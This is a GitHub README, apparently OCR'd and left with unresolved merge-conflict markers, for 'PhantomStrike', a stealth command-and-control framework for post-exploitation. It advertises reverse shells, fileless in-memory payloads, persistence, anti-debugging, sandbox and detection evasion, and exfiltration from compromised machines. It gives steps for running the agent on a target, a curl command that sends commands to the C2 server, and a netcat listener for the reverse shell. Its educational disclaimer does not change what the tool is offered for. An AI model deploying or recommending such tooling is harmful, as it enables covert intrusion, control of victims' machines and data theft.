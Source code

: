 <<<<<<< HEAD

PhantomStrike - Stealth C2 Framework


---

██████╗ ██╗  ██╗ █████╗ ███╗   ███╗████████╗ ██████╗ ███████╗
██╔══██╗██║  ██║██╔══██╗████╗ ████║╚══██╔══╝██╔═══██╗██╔════╝
██████╔╝███████║███████║██╔████╔██║   ██║   ██║   ██║███████╗
██╔═══╝ ██╔══██║██╔══██║██║╚██╔╝██║   ██║   ██║   ██║╚════██║
██║     ██║  ██║██║  ██║██║ ╚═╝ ██║   ██║   ╚██████╔╝███████║
╚═╝     ╚═╝  ╚═╝╚═╝  ╚═╝╚═╝     ╚═╝   ╚═╝    ╚═════╝ ╚══════╝

>>>>>>> cb039823b25ec3484ad5c066e8ba90cd8945d745
PhantomStrike - Stealth C2 Framework

██████╗ ██╗  ██╗ █████╗ ███╗   ███╗ ████████╗ ███████╗
██╔══██╗██║  ██║██╔══██╗████╗ ████║ ╚══██╔══╝ ██╔════╝
██████╔╝███████║███████║██╔████╔██║    ██║    █████╗
██╔═══╝ ██╔══██║██╔══██║██║╚██╔╝██║    ██║    ██╔══╝
██║     ██║  ██║██║  ██║██║ ╚═╝ ██║    ██║    ███████╗
╚═╝     ╚═╝  ╚═╝╚═╝  ╚═╝╚═╝     ╚═╝    ╚═╝    ╚══════╝

PhantomStrike - Stealth C2 Framework 🚀

PhantomStrike is an advanced post-exploitation framework designed to provide stealth, persistence, privilege escalation, and remote control capabilities. It helps to maintain full access to compromised machines and exfiltrate valuable data while evading detection.


---

Features 🔧

AES Encryption: Secure all communications between the agent and the C2 server.

Stealth Mode: Ensures no execution traces are left behind.

Anti-Debugging: Detects debuggers and terminates itself to prevent analysis.

Reverse Shell: Gain full control of the target system remotely.

Fileless Execution: Executes payloads entirely in memory, leaving no traces on the disk.

Self-Delete: The agent deletes itself after execution to prevent detection.

Persistence Mode: Ensures that access is maintained even after system reboots.

Command Execution: Run arbitrary shell commands on the compromised machine.

Reverse Shell Connection: Establish an interactive reverse shell with the target.



---

Installation 📌

1️⃣ Clone the Repository:

git clone https://github.com/Akkaiaj/PhantomStrike.git
cd PhantomStrike

2️⃣ Install Dependencies:

Ensure that you have all required libraries installed:

pip install -r requirements.txt


---

Usage 🚀

1️⃣ Start the C2 Server (Attacker Machine)

Run the following command to start the PhantomStrike C2 server on your machine:

python3 phantom_c2.py

📌 This command will launch the Flask-based C2 server and start listening for incoming agent connections.


---

2️⃣ Deploy the Agent (Target Machine)

To deploy the agent on a compromised system, simply run:

python3 phantom_agent.py

📌 This will:

Connect the agent to the C2 server.

Execute commands sent from the C2 server.

Open a reverse shell for remote control.



---

Command & Control 🛠️

1️⃣ Sending Commands to the Agent

From the C2 server, you can send commands to the connected agent by sending a POST request:

curl -X POST http://your-server-ip:5000/command -H "Content-Type: application/json" -d '{"command": "whoami"}'

📌 The agent will execute the given command and send the results back to the C2 server.


---

2️⃣ Reverse Shell Usage 🔥

Once the agent is connected, establish a reverse shell by running:

nc -lvnp 4444

📌 This will give you full control over the target system.


---

Evasion & Persistence 🕵️‍♂️

Anti-Debugging: PhantomStrike detects when debuggers are present and terminates to avoid analysis.

Self-Delete: The agent cleans up after execution, leaving no traces on the disk.

Persistence Mode: PhantomStrike can be configured to run automatically after system reboots, ensuring continuous access.



---

Defensive Measures 🛡️

AES Encryption: All communication between the agent and C2 server is encrypted to avoid detection.

Evasion: The tool implements polymorphic obfuscation to make the payload harder to detect by sandboxing or monitoring tools.

Anti-Sandbox: PhantomStrike bypasses common sandbox detection mechanisms.



---

Donations 💰

If you find PhantomStrike useful, consider supporting the project to help fund its continuous development:


*buy me a coffe 

BTC: bc1q0ruwrc4gs465xvu6tcn24h62pclt96sh2yv8pq

ETH: 0x69B6F3aA9F470d4cBD93CDC4c0A887C0787CEf9B

SOL: Gk6CmvvS6fi1Nfnu7QEEneshbLkmaE5Ue8sBzxz91D3q


---

License 📜

PhantomStrike is open-source software and licensed under the MIT License. By using this tool, you agree to the terms of this license.


---

⚠️ Disclaimer

This tool is intended for educational purposes and ethical hacking only. Any unauthorized use of this tool against systems without consent is illegal and unethical. Please ensure you have permission to use this tool before deploying it.


---

